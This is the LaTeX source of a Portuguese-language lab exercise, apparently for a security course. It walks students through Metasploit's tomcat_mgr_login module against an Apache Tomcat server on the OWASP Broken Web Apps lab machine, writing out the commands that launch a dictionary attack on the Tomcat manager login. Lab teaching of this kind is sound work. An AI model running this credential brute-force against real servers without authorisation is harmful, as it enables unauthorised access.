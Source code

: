 \documentclass{article}
\begin{document}
    \section{Metasploit}

    \subsection{%
        Usando o Metasploit para explorar o TOMCAT na máquina Owasp Broken
    }

    O servidor Apache Tomcat é um servidor web Java.

    \begin{verbatim}
        msf > search tomcat
    \end{verbatim}

    Com o comando search tomcat é possível identificar os exploits disponíveis.
    Procure o nome do módulo:

    \begin{verbatim}
        Name ... Description
        auxiliary/scanner/http/tomcat_mgr_login ... Tomcat Application Manager Login Utility
    \end{verbatim}

    Para usar este módulo digite:

    \begin{verbatim}
        msf > use auxiliary/scanner/http/tomcat_mgr_login
        msf > show options
    \end{verbatim}

    As opções mostram o que pode ser configurado para usar o módulo escolhido.
    Nem tudo precisa ser configurado.

    Digite os comandos abaixo. Copie e cole o screenshot da sua tela no
    relatório da tarefa ao realizar o experimento:

    \begin{verbatim}
        msf auxiliary(tomcat_mgr_login) > set RHOSTS 10.1.2.6
        msf auxiliary(tomcat_mgr_login) > set RPORT 8080 (Porta do Tomcat)
        msf auxiliary(tomcat_mgr_login) > exploit
    \end{verbatim}

    Este módulo executa um ataque do dicionário, utilizando os arquivos
    indicados nas variáveis indicadas acima. Neste ataque uma das combinações
    utilizadas poderá ser aceita pelo servidor.
\end{document}
